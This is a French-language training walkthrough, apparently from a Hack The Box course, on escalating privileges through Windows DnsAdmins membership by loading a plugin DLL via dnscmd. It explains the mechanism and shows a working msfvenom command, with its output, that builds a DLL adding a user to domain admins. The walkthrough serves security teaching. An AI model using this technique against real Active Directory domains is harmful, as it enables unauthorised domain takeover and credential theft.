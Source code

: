 Administrateurs DNS
=========

* * * * *

Les membres du groupe [DnsAdmins](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#dnsadmins) ont accès aux informations DNS sur le réseau. Le service DNS Windows prend en charge les plugins personnalisés et peut appeler des fonctions à partir de ceux-ci pour résoudre les requêtes de noms qui ne sont pas dans le champ d'application des zones DNS hébergées localement. Le service DNS s'exécute en tant que `NT AUTHORITY\SYSTEM`, de sorte que l'appartenance à ce groupe pourrait potentiellement être exploitée pour élever les privilèges sur un contrôleur de domaine ou dans une situation où un serveur distinct agit en tant que serveur DNS pour le domaine. Il est possible d'utiliser l'utilitaire intégré [dnscmd](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd) pour spécifier le chemin de la DLL du plug-in. Comme détaillé dans cet excellent [article](https://adsecurity.org/?p=4064), l'attaque suivante peut être effectuée lorsque le DNS est exécuté sur un contrôleur de domaine (ce qui est très courant) :

-   La gestion DNS est effectuée via RPC

-   [ServerLevelPluginDll](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/c9d38538-8827-44e6-aa5e-022a016ed723) nous permet de charger une DLL personnalisée sans aucune vérification des DLL chemin. Cela peut être fait avec l'outil `dnscmd` à partir de la ligne de commande

-   Lorsqu'un membre du groupe `DnsAdmins` exécute la commande `dnscmd` ci-dessous, la clé de registre `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll` est renseignée

-   Lorsque le service DNS est redémarré, la DLL de ce chemin sera chargée (c'est-à-dire un partage réseau auquel le compte d'ordinateur du contrôleur de domaine peut accéder)

-   Un attaquant peut charger une DLL personnalisée pour obtenir un reverse shell ou même charger un outil tel que Mimikatz en tant que DLL pour vider les informations d'identification.

Passons à l'attaque.

* * * * *

Tirer parti de l'accès DNSAdmins

---------------------------

#### Génération de DLL malveillantes

Nous pouvons générer une DLL malveillante pour ajouter un utilisateur au groupe `domain admins` en utilisant `msfvenom`.

Génération de DLL malveillantes

```

dsgsec@htb[/htb]$ msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll

[-] Aucune plate-forme n'a été sélectionnée, en choisissant Msf::Module::Platform::Windows à partir de la charge utile

[-] Aucune arche sélectionnée, sélection de l'arche : x64 à partir de la charge utile

Aucun encodeur spécifié, sortie de données utiles brutes

Taille de la charge utile : 313 octets

Taille finale du fichier dll : 5120 octets

Enregistré sous : adduser.dll

```
